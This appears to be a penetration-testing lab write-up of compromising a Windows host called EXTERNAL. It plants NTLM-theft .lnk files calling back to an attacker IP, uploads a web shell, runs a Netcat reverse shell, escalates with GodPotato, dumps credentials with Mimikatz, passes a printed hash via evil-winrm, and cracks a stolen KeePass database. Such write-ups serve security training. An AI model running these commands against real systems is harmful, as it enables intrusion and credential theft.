---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# EXTERNAL

## Enumeration

This host is at `192.168.X.248`:

```
Nmap scan report for 192.168.200.248 (EXTERNAL)
Host is up (0.052s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Home
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 16 disallowed entries (15 shown)
| /*/ctl/ /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
|_/Documentation/ /HttpModules/ /Install/ /Providers/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-07-28T19:45:22+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=EXTERNAL
| Not valid before: 2024-04-08T09:11:03
|_Not valid after:  2024-10-08T09:11:03
| rdp-ntlm-info: 
|   Target_Name: EXTERNAL
|   NetBIOS_Domain_Name: EXTERNAL
|   NetBIOS_Computer_Name: EXTERNAL
|   DNS_Domain_Name: EXTERNAL
|   DNS_Computer_Name: EXTERNAL
|   Product_Version: 10.0.20348
|_  System_Time: 2024-07-28T19:45:00+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49965/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.200.248:49965: 
|     Target_Name: EXTERNAL
|     NetBIOS_Domain_Name: EXTERNAL
|     NetBIOS_Computer_Name: EXTERNAL
|     DNS_Domain_Name: EXTERNAL
|     DNS_Computer_Name: EXTERNAL
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-04-09T09:11:09
|_Not valid after:  2054-04-09T09:11:09
| ms-sql-info: 
|   192.168.200.248:49965: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 49965
|_ssl-date: 2024-07-28T19:45:22+00:00; 0s from scanner time.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/28%OT=80%CT=1%CU=37835%PV=Y%DS=4%DC=T%G=Y%TM=66A6
OS:9FD3%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=109%TI=I%TS=A)OPS(O1=M55
OS:1NW8ST11%O2=M551NW8ST11%O3=M551NW8NNT11%O4=M551NW8ST11%O5=M551NW8ST11%O6
OS:=M551ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=Y%DF
OS:=Y%T=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%
OS:Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6
OS:(R=N)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=8985
OS:%RUD=G)IE(R=N)

Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-07-28T19:45:05
|_  start_date: N/A

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
-   Hops 1-3 are the same as for 192.168.200.189
4   52.09 ms 192.168.200.248
```

### Web Server (80)

It seems like it is a default install of [DNN](https://www.dnnsoftware.com/) which is another CMS:

<figure><figcaption><p>Landing page on EXTERNAL</p></figcaption></figure>

Unfortunately the [default credentials](https://support.managed.com/kb/a333/default-dnn-usernames-and-passwords.aspx) I could find for `admin` and `host` did not get me logged in. Neither did `mark`'s credentials

### Anonymous RPC

It seems I have anonymous RPC access but no terribly helpful commands:

<figure><figcaption><p>Anonymous RPC</p></figcaption></figure>

### Anonymous SMB

<figure><figcaption></figcaption></figure>

I have write access in a few locations and so I create a `.lnk` with `ntlm_theft` and put it as many places as I can hoping a user stumbles across it.


```bash
python3 ntlm_theft/ntlm_theft.py -g lnk -s 192.168.45.154 -f relia
```


#### Transfer

I decide to grab a copy of the `transfer` share:

```
smbclient //external.relia.com/transfer -N -c 'mask"";prompt OFF;recurse ON;mget *'
```

As the transfer is happening I see some interesting file names. It looks like this might be the source for the site:

<figure><figcaption><p>Copy of transfer</p></figcaption></figure>

I already know I can write to this share so I decide to try uploading a `.aspx` web shell.

## Foothold

I grab `cmd.aspx` as my webshell and upload it to `\\external.relia.com\transfer\r14_2022\build\wwwroot\`. Once it is uploaded I can just navigate there with a browser:

<figure><figcaption><p>Web shell uploaded</p></figcaption></figure>

### Reverse Shell

I am able to use this webshell to download and run a Netcat reverse shell to port 135:

<figure><figcaption><p>Reverse shell</p></figcaption></figure>

User access achieved.

## Privilege Escalation

I run whoami /all and quickly find `SeImpersonatePrivilege`. I attempt to use PrintSpoofer but it fails. I try again with [GodPotato](https://github.com/BeichenDream/GodPotato) which succeeds:

<figure><figcaption><p>SeImpersonatePrivilege set</p></figcaption></figure>

<figure><figcaption><p>Successful use of GodPotato</p></figcaption></figure>

`SYSTEM` access achieved.

This machine will now serve as my pivot into the internal network.

## Post-Exploitation

### Mimikatz


```
C:\Windows\Temp\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```


<figure><figcaption></figcaption></figure>

There is not much else but I validate the local `Administrator`'s hash

<figure><figcaption><p>Admin hash validation</p></figcaption></figure>

I can now just hop back into the machine with `evil-winrm`:


```bash
evil-winrm -i 192.168.198.248 -u 'Administrator' -H 56e4633688c0fdd57c610faf9d7ab8df
```


### SAM Dump

I also dump some SAM hashes here:

<figure><figcaption><p>SAM hash dump</p></figcaption></figure>

I add the user to my list of hashes.

### &#x20;KeePass Check

KeePass databases are always stored as `.kdbx` files. I use this command to check for any and find some:


```powershell
Get-ChildItem -Path C:\ -Filter *.kdbx -Recurse -ErrorAction SilentlyContinue
```


I grab the most recent one and download it:

<figure><figcaption><p>Getting Database.kdbx</p></figcaption></figure>

#### Cracking KeePass

I crack the KeePass file by first converting it to `john` format and then cracking it with `rockyou.txt`:

```bash
keepass2john Database.kdbx > keepass.hash
```


```bash
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash > keepass.cracked
```


```bash
john --show keepass.hash
```

<figure><figcaption><p>Cracked KeePass</p></figcaption></figure>

I install KeePass and open the file:

<figure><figcaption><p>KeePass file</p></figcaption></figure>

Of the credentials only `bo`'s looks real:

<figure><figcaption><p>Validating bo</p></figcaption></figure>

`bo` was marked `RETIRED` in the KeePass file but maybe his account still seems valid.

Weirdly the other 2 credential sets validate on EXTERNAL. I wonder if that is because it allows anonymous SMB or if that is real:

<figure><figcaption></figcaption></figure>

## Pivot

I attempt running an Nmap scan from this machine but every single port comes back filtered. That certainly cannot be right so I think this may not be it.
